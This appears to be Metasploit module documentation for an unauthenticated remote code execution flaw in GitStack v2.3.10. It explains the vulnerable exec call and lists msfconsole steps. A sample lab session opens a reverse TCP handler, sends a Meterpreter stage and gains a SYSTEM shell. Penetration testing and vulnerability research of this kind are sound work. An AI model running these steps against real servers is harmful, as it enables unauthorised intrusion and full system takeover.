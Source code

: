 ## Description

This module exploits an unauthenticated remote code execution vulnerability on GitStack v2.3.10. The module will send unauthenticated REST API requests to put the application in a vulnerable state, if needed, before sending a request to trigger the exploit. These configuration changes are undone before the module exits.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository interface must be enabled, a repository must exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts. Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] `./msfconsole`
- [ ] `use exploit/windows/http/gitstack_rce`
- [ ] `set rhost <rhost>`
- [ ] `set verbose true`
- [ ] `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf5 > use exploit/windows/http/gitstack_rce
msf5 exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf5 exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
